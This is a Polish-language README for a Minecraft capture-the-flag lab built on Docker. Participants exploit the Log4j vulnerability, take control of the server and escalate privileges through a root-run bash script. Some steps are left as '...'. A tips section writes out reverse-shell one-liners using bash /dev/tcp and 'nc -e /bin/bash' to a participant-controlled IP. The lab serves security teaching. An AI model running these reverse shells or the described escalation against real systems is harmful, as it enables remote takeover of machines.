 # minecraft-ctf

- próbujesz uruchomić sklauncher (jak nie masz javy, to se pobierz i zainstaluj)
- dockera też potrzebujesz (duh)
- odpalasz docer compose
- to ci uruchamia 3 kontenery
- dwa są tak jakby 'twoje', marshaller i httpcode. 'twoje' oznacza, że w topologii realnej są procesami, które ty kontrolujesz i stawiasz na swoim kompie, tutaj są w dockerach, żeby usprawnić całość,
- twoje zadanie jest następujące: zdobyć flagę wykorzystując podatność Log4j i kilka innych rzeczy :DD
- w tym celu:
  1. Uruchom Minecraft:
     1. Odpalasz SKLauncher, wybierasz tryb ofline,
     2. Klikasz + po prawej od "Installations Manager",
     3. Wybierasz release 1.8.8, SAVE, potem PLAY,
  2. Uruchom server mc (przy okazji inne kontenery):
     1. W repo komenda: `docker-compose up` albo `docker compose up`, uruchomi ci wszystkie kontenery, m.in. server minecrafta,
  3. 
  4. masz za zadanie wykorzystać podatność Log4j,
  5. kod hostowany na httpcode musisz przygotować i skompilować (kompilacja się dzieje podczas budowania kontenera),
  6. kod musi ci umożliwić kontrole na serverze
  7.  musisz znaleźć skrypt bashowy wykonywany z uprawnieniami roota, który możesz zmodyfikować,
  8.  zmodyfikować go tak, by ...
  9.  ...
  10. teraz masz dostęp do pliku z flagą,
  11. wyślij screen flagi na upela ;D
  12. udanej zabawy!



Przydatne rzeczy:

Reverse shell:
```sh
# https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

# odpalasz nasluchiwanie tcp na porcie `5000` na swoim kompie
nc -l 5000

# na kompie ofiary na którym możesz uruchomić komendę robisz
# (musisz wejść w basha - czyli wpisz `bash` w terminal)
# (w zsh /dev/tcp/[ip]/[port] nie działa )
bash -i >& /dev/tcp/[ip mojego kompa]/5000 0>&1
# albo to (ale mi nie działało)
nc [ip mojego kompa] 5000 –e /bin/bash


# Możesz to przetestować robiąc w jednym terminalu
nc -l 5000
# a w drugim
bash -i >& /dev/tcp/127.0.0.1/5000 0>&1
```

Zbudowanie i uruchomienie kontenera:
```bash
# budowanie obrazu:
docker build . -t nazwa-obrazu
docker build . -t nazwa-obrazu:wersja

# uruchomienie obrazu (wtedy mamy uruchomiony kontener)
docker run -p 25565:25565 -ti 
```

EOL:
```md

VSCode:
- Minecraft-Log4j-Exploit/server/start_server.sh
- CTRL + SHIFT + P
- EOL sequence

```


Credits:
https://github.com/Justin-Garey/Minecraft-Log4j-Exploit
https://github.com/mbechler/marshalsec
https://lipanski.com/posts/smallest-docker-image-static-website


lf w starcie
odpalic trzy kontenery bez przeszkod
wejsc na server mc wpisac komende

netcata nie ma na windowsie, trzeba wsl, albo zainstalowac,
do pliku trzeba dawać to co chcemy uruchomić
jak zatrzymać bash -c reverse shell?
echo to wbudowana funkcja basha, a nie żadna binarka 


allready allocated port: docker desktop delete container, 

docker ps
docker ps -a
docker kill <id>
docker remove <id>
docker image prune
docker container prune

docker build && docker run
docker kill && docker remove